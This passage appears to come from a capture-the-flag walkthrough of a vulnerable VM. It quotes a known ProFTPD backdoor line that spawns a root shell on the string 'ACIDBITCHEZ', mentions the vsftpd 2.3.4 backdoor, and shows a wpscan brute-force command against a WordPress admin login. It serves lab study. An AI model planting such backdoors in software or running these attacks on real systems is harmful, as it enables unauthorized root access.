```c
    errno = ENOENT;
    return -1;
  }

  errno = ENOENT;
  return -1;
}
```
Now we finally find the backdoor! Since we called `pr_help_add_response` function with `char *target`, it will pass `if` condiction and go to `else` part. That's it. There is a very strange line of code at line 131.
```c
if (strcmp(target, "ACIDBITCHEZ") == 0) { setuid(0); setgid(0); system("/bin/sh;/sbin/sh"); }
```
If the target is `ACIDBITCHEZ`, it will execute a root shell!

### Similar vulnerability
This reminds me of another, very similar vulnerability: [vsfptd v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor).
It's also an open source FTP server containing backdoor at v2.3.4. When any FTP username end with `:)`, vsftpd will start a shell and listen to port 6200 no matter the password is correct or not.

## Method 02: Web Server
The VM also open port 80 with Apache httpd service, but the index is just the default page so I start my routine work to pentest this website.

First, I use `dirb` to scan the URL and found the `secret` folder. It's actually a WordPress page but its static files seems not correctly loaded.

![host](host.png)

It's easy to solve this problem. Just modify your host computer's `/etc/hosts` file and add your VM's ip in the file. For example, my VM's ip is `192.168.56.102`, add `192.168.56.102 vtcsec` to the file and save it. Force reload the web page and you should see the full page completely.

### Get admin
Back to our challenge, now we know that this is a default WordPress site. Maybe we can try brute force attack to crack the admin's password. Using `wpscan` we can easily scan WordPress site and brute force attack to enumerate password. You can find some wordlists from [SecLists](https://github.com/danielmiessler/SecLists).
```
$ wpscan --url http://192.168.56.102/secret --username admin --wordlist 10-million-password-list-top-10000.txt
```

The result admin's password is `admin` orz...
Never mind, now we can access the admin control panel.

### Get shell
Since we have the admin privilege, we can control this WordPress site including upload custom plugin.
